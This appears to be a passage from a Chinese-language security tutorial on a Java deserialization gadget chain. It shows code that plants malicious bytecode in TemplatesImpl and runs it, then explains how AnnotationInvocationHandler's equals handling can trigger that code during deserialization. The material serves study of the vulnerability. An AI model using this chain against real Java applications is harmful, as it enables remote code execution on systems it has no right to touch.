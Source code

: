 ```java
        byte[] evilByteCodes = cc.toBytecode();
        byte[][] targetByteCodes = new byte[][]{evilByteCodes};
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setFieldValue(templates, "_bytecodes", targetByteCodes);
        // 进入 defineTransletClasses() 方法需要的条件
        setFieldValue(templates, "_name", "name" + System.nanoTime());
        setFieldValue(templates, "_class", null);
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());
        templates.newTransformer();
    }
```

在上面的代码示例中，是手动调用 `newTransformer()` 来触发恶意代码的执行，因此还需要找到一个能够在反序列化过程中，自动调用 (直接或间接) 该方法的类

## AnnotationInvocationHandler

在构造 payload 中，利用了 `AnnotationInvocationHandler` 提供的 `equals` 方法的默认实现，来触发对 `Tempaltes` 接口中 `getOutputProperties()` 或 `newTransformer()` 的调用，来具体看一下

AnnotationInvocationHandler 位于 `sun.reflect.annotation` 包中，用于 Annotation 的动态代理，其定义如下

```java
class AnnotationInvocationHandler implements InvocationHandler, Serializable {
    private final Class<? extends Annotation> type;
    private final Map<String, Object> memberValues;

    AnnotationInvocationHandler(Class<? extends Annotation> type, Map<String, Object> memberValues) {
        // Annotation Class type，eg. Override.class
        this.type = type;
        this.memberValues = memberValues;
    }
  ...
}    
```

可以看到实现了 `InvocationHandler` 和 `Serializable` 两个接口，根据 **Dynamic Proxy** 部分的介绍，使用 AnnotationInvocationHandler 创建的 proxy object 的所有方法调用都会变成对 invoke 方法的调用，来看一下方法的实现

```java
 public Object invoke(Object proxy, Method method, Object[] args) {
        String member = method.getName();
        Class<?>[] paramTypes = method.getParameterTypes();

        // Handle Object and Annotation methods
        if (member.equals("equals") && paramTypes.length == 1 &&
            paramTypes[0] == Object.class)
            return equalsImpl(args[0]);
        ...
    }
```

可以看到当调用方法名为`equals` 时，且参数个数和类型匹配，则调用内部 `equalsImpl` 方法
